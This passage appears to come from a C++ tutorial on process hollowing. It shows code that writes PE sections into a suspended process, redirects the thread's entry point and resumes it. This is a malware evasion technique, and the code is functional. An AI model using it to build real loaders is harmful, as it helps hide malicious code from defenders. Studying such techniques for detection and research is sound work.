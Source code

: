 We copy each section of the executable (.text, .data, .rdata, etc.) to its correct location in memory

```cpp
  PIMAGE_SECTION_HEADER sourceImageSectionHeader = (PIMAGE_SECTION_HEADER)(
        (DWORD_PTR)sourceImageNTHeaders + sizeof(IMAGE_NT_HEADERS)
        );

    for (int i = 0; i < sourceImageNTHeaders->FileHeader.NumberOfSections; i++) {
        std::cout << "  - Writing section: " << sourceImageSectionHeader->Name << std::endl;

        LPVOID sectionDestination = (LPVOID)(
            (DWORD_PTR)newBaseAddress + sourceImageSectionHeader->VirtualAddress
            );

        LPVOID sectionSource = (LPVOID)(
            (DWORD_PTR)sourceFileBytesBuffer + sourceImageSectionHeader->PointerToRawData
            );

        if (!WriteProcessMemory(
            processInfo.hProcess,
            sectionDestination,
            sectionSource,
            sourceImageSectionHeader->SizeOfRawData,
            NULL
        )) {
            ErrorExit("Could not write a PE section");
        }

        sourceImageSectionHeader++;
    }
```
## 9. Update the thread context to point to the new entry point

We modify the suspended thread state so that when it continues, it begins to execute our code

``` cpp
    context.Rbx = (DWORD_PTR)newBaseAddress + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;
```

## 10. Resume process execution

We use ResumeThread to resume process execution

``` cpp
 if (ResumeThread(processInfo.hThread) == -1)
```

Finally, we free resources using [HeapFree](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapfree) and [CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)

``` cpp
    HeapFree(GetProcessHeap(), 0, sourceFileBytesBuffer);
    CloseHandle(processInfo.hProcess);
    CloseHandle(processInfo.hThread);
```
